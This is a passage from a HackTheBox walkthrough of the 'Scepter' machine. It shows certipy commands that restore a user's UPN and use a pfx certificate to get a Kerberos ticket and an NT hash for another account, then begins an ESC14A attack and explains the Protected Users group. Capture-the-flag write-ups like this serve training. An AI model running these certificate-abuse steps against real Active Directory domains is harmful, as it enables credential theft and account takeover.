 ##### 4\. Restore victim account's upn

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# certipy account -dc-ip 10.10.11.65 -u 'a.carter@scepter.htb' -p 'Password123.!' -user 'd.baker' -upn 'd.baker' update                           
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'd.baker':
    userPrincipalName                   : d.baker 
[*] Successfully updated 'd.baker'

```

##### 5\. Get NT hash via pfx file

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# certipy auth -dc-ip 10.10.11.65 -pfx d.baker.pfx -username 'h.brown' -domain scepter.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'h.brown@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT                                      
[*] Saving credential cache to 'h.brown.ccache'
[*] Wrote credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c
```

## ESC14A Write Access on altSecurityIdentities

Authenticating as `h.brown` with `NTLM` is not possible due to `Protected Users` . Since the only user `h.brown` member of `Remote Management Users` . 

### What is Protected Users Group

>>The **Protected Users group** in Active Directory (introduced in Windows Server 2012 R2) is a special security group designed to enhance the security of privileged accounts by enforcing stricter authentication policies. When a user is added to this group, certain legacy and insecure authentication mechanisms are disabled for that account. For example, the use of **NTLM**, **Digest Authentication**, and **CredSSP** is blocked, and delegation scenarios such as **unconstrained delegation** and **protocol transition** are also prevented. Furthermore, **Ticket Granting Ticket (TGT)** lifetime is limited to 4 hours by default, reducing the window for potential misuse in case of ticket theft.

>>Regarding **Kerberos authentication**, when a user is in the Protected Users group, **Kerberos** becomes the only supported authentication protocol for domain services. However, this Kerberos usage is subject to strict enforcement: it does not cache credentials locally, requires AES encryption, and enforces stricter ticket policies. If a service or application only supports **NTLM**, authentication will fail for Protected Users, making compatibility planning critical. This enforcement helps mitigate risks like **pass-the-hash** and **pass-the-ticket** attacks, but may disrupt older systems or services that rely on legacy protocols.
